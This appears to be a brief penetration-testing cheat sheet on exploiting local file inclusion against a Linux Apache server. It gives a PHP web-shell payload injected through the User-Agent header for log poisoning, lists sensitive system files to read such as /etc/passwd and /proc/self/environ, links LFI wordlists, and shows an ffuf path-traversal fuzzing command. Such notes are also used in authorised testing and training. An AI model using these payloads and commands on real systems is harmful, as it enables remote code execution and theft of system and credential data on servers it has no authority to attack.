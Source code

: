 # linux victim

## apache

### check

- /var/log/apache/access.log
- /var/log/apache2/access.log

### set payload via user-agent

```
User-Agent: <?php system($_GET['cmd']);?>
```

# wordlists

- /opt/repo/hacking-handbook
- https://github.com/drtychai/wordlists/blob/master/intruder/lfi.txt
- https://github.com/hussein98d/LFI-files/blob/master/list.txt
- https://github.com/rowbot1/lfi.list/blob/master/list.list
- https://github.com/carlospolop/Auto_Wordlists
- https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders

# files to check

- /proc/self/cmdline
- /proc/sched_debug
- /etc/passwd
- /proc/self/environ
- /proc/1/cmdline

# use ffuf to fuzz

```bash
ffuf -c -u "http://$rhost/lfi.php?read=../../../../../../../../../../FUZZ" -w wordlist -mc '200,204,301,302,307,401,405,403'
```

